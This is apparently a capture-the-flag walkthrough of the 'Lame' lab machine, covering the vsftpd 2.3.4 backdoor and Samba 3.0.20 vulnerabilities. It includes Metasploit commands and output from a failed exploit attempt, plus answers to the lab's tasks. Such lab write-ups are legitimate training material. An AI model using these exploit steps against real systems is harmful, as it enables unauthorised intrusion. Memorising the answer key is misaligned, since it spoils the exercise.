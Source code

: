 Search on Google to find the answer for Task 3.

Link CVE: https://nvd.nist.gov/vuln/detail/CVE-2011-2523

Description of CVE: `vsftpd 2.3.4` downloaded between 20110630 and 20110703 contains a backdoor which opens a shell on port `6200/tcp`.

Link exploitation: https://www.exploit-db.com/exploits/17491

Let's try it.

```text
msfconsole
msf6 > search vsftp

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  auxiliary/dos/ftp/vsftpd_232          2011-02-03       normal     Yes    VSFTPD 2.3.2 Denial of Service
   1  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 1, use 1 or use exploit/unix/ftp/vsftpd_234_backdoor

msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
msf6 exploit(unix/ftp/vsftpd_234_backdoor) >
```

> Task 3: There is a famous backdoor in VSFTPd version 2.3.4, and a Metasploit module to exploit it. Does that exploit work here?

> Answer: No

> Task 4: What version of Samba is running on Lame? Give the numbers up to but not including "-Debian". 

> Answer: 3.0.20

Found this: https://nvd.nist.gov/vuln/detail/CVE-2007-2447

**Description**:
The MS-RPC functionality in smbd in Samba 3.0.0 through 3.0.25rc3 allows remote attackers to execute arbitrary commands via shell metacharacters involving the (1) SamrChangePassword function, when the "username map script" smb.conf option is enabled, and allows remote authenticated users to execute commands via shell metacharacters involving other MS-RPC functions in the (2) remote printer and (3) file share management.
